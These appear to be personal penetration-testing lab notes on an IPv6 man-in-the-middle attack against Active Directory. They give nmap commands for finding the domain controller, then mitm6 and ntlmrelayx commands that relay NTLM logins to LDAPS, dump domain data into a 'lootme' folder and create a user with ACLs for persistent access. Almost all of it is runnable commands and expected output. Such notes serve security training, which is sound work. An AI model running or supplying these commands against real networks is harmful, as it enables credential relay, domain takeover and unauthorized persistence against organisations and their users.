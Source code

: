 mitim6 (search for dirk jan m)

# mitm6:
```
mitm6 -d (domain to attack like marvel.local)
then use:
python3 ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakepad.marvel.local -l lootme
```



## IPv6: mitm6
1. install from github
```
cd /opt; git clone https://github.com/fox-it/mitm6.git; cd mitm6
```
2. get Domain Controller IP 
Domain controllers will show port 389 running the Microsoft Windows AD LDAP service:
```
nmap -p389 -sV <IP-range>           # faster but may not return results if the server is blocking pings
nmap -p389 -sV -Pn <IP-range>       # slower but more accurate
```
Expected Output:
```
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: MARVEL.local0., Site: Default-First-Site-Name)
MAC Address: CC:2F:71:3A:CE:3D (Intel Corporate)
Service Info: Host: HYDRA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
OR:
```
nmap -p 389 -T4 -A -v --script ldap-rootdse <IP-range>
```
3. get Domain name using nmap
```
nmap --script smb-enum-domains.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>
```
OR:
```
nmap --script smb-os-discovery.nse -p445 127.0.0.1
sudo nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 127.0.0.1
```

4. run mitm6
```
sudo python mitm6.py -d <domain>.local
```

5. run ntmlrelayx.py at the same time
Download from: https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py
```
ntmlrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.<domain>.local -l lootme
```
6. check on results:
all captured info will be saved to lootme folder in the directory you ran this command. when someone logs in to a computer on the network this will try to create a user and acl for persistent access. 
```
firefox ./lootme/domain_users.html
```
Always check for passwords in the description. 

